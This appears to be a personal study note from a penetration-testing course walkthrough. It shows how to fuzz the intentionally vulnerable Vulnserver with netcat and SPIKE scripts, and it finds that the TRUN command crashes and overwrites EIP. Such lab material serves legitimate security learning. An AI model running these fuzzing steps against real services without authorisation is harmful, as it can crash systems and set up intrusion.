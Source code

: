 
# Spiking w/ Vulnserver
The following notes were created while using [Vulnserver](https://thegreycorner.com/vulnserver.html) and [Immunity Debugger](https://www.immunityinc.com/products/debugger/) on a Windows 10 VM.
## Setup
Once Vulnserver and Immunity Debugger are installed on the vulnerable Windows VM, use `ipconfig` to find the VM's IP address. Verify your attack box and the vulnerable box can talk to each other (using [ping](/CLI-tools/ping.md)).

Then you can connect to Vulnserver from your attack box using [netcat](/cybersecurity/tools/netcat.md):
```bash
┌──(hakcypuppy㉿kali)-[~]
└─$ nc -nv $t 9999
(UNKNOWN) [10.0.2.15] 9999 (?) open
Welcome to Vulnerable Server! Enter HELP for help.
```
- `-n`: stands for numeric connections only (netcat will expect an IP address and port)
- `-v`: stands for verbose
- `9999` is the port Vulnserver will be listening on in the Windows box
### Commands
Now that you're connected, use `HELP` to get a list of commands:
```bash
┌──(hakcypuppy㉿kali)-[~]
└─$ nc -nv $t 9999
(UNKNOWN) [10.0.2.15] 9999 (?) open
Welcome to Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
STATS [stat_value]
RTIME [rtime_value]
LTIME [ltime_value]
SRUN [srun_value]
TRUN [trun_value]
GMON [gmon_value]
GDOG [gdog_value]
KSTET [kstet_value]
GTER [gter_value]
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT
```
## Spiking Commands
Each of the listed commands can be *spiked* to find out whether they are vulnerable to a [buffer-overflow](/cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md) or not. The point of buffer overflow is to *overwrite the saved `RIP`/ `EIP` frame on the stack* so we can hijack execution flow.

The saved `EIP` is a frame pushed onto the stack before a function in the code is called (and its own frame is pushed onto the stack). The job of the saved `EIP` is to tell the CPU where to resume executing after the function being called has finished executing. If we can overflow the saved `EIP`, then we can replace the value it holds *with the address on the stack* which we know *holds our own malicious code*. That way, when the CPU reads the value in saved `EIP` it will go to the address we've placed there which takes it to our malicious code (and it will begin executing it).

Spiking will tell us which commands are vulnerable because *if we're able to overwrite the saved `RIP` with junk data the program will crash*. So, we're looking for which command will cause the vulnerable program to crash if we overwrite it. 

To test each command, we can use `generic_send_tcp`, a command/ program on Kali:
```bash
┌──(hakcypuppy㉿kali)-[~]
└─$ generic_send_tcp
argc=1
Usage: ./generic_send_tcp host port spike_script SKIPVAR SKIPSTR
./generic_send_tcp 192.168.1.100 701 something.spk 0 0
```
### Targeting the `STATS` command
Starting with the `STATS` command, we need a spike script to supply to `generic...` to test it. All the script has to do is:
- be named w/ a `.spk` extension
- read a line
- create a string (in this case `"STATS"`)
- send a variable to the command (`STATS`)
```bash
#!stats.spk:
$_readline();
$_string("STATS");
$_string_variable("0"); # <--- variable to send
```
`generic_send_tcp` will take our script and use it to send strings of various lengths, all filled with "0", to the `STATS` command *until the program breaks*.
#### Spiking:
With our script created, now we can send it to the program being hosted on Vulnserver using the `generic_tcp_send_tcp` command:
```bash
generic_send_tcp 10.0.2.15 9999 stats.spk 0 0
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
Fuzzing Variable 0:1
Variablesize= 5004
Fuzzing Variable 0:2
Variablesize= 5005
...
Fuzzing Variable 0:436
Couldn't tcp connect to target
Variablesize= 1024
tried to send to a closed socket!
Fuzzing Variable 0:437
Couldn't tcp connect to target
^C   # <--- kill
```
In the output we can see that `generic_send_tcp` is sending variables of increasing sizes to the `STATS` command of the host. At some point it starts failing w/ the `Couldn't tcp connect to target` output message. We can end the process here (although normally you would wait until it finishes on its own).

From this output we know *the `STATS` command is not vulnerable*. We can also look at Immunity Debugger. If the program had crashed, we'd be able to see that in the debugger. 
### Targeting `TRUN` command
For `TRUN` we'll do the same thing, except change the `s_string()` variable parameter to `"TRUN "`. Let's send it (in the same way):
```bash
generic_send_tcp $t 9999 trun.spk 0 0
```
This time when we run the command, the immunity debugger shows that the vulnserver process pauses and shows an access violation. This means we were able to *crash vulnserver*. This tells us that the `TRUN` command is vulnerable.
![](nested-repos/PNPT-study-guide/PNPT-pics/spiking-1.png)
In Immunity Debugger, if we look at the registers, we can see that the buffer allocated for the `TRUN` command *has been overflowed with out `A` characters.* The stack (`ESP`) and base (`EBP`) pointers have also been overflowed on the stack.

And if we look at the value currently held in the `EIP` register, we see `41414141`. '41' is the char code for `A`, which means we've also managed to overflow the instruction pointer, which is our ultimate target.

Based on the [anatomy of the stack](https://trshpuppy.github.io/portfolio/writeups/binary-exploitation) there are frames on the stack which around where the `TRUN` buffer is saved (in its own adjacent frame) which hold the values these registers are *meant to be set to*. The purpose of saving the values for these registers on the stack is to *tell the CPU where to continue executing* after the current *activation frame* has finished executing and has been popped off the stack.

By overflowing the allotted buffer space for `TRUN` we've written data onto the stack *in the direction of those register frames*, and that's why they've been overwritten with our buffer characters.

Now that we've found a vulnerable command, we can move on to [fuzzing](/nested-repos/PNPT-study-guide/PEH/buffer-overflows/fuzzing.md).

> [!Resources]
> -  [Vulnserver](https://thegreycorner.com/vulnserver.html) 
> - [Immunity Debugger](https://www.immunityinc.com/products/debugger/) 
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
> - My [writeup on buffer overflows and stack manipulation](https://trshpuppy.github.io/portfolio/writeups/binary-exploitation)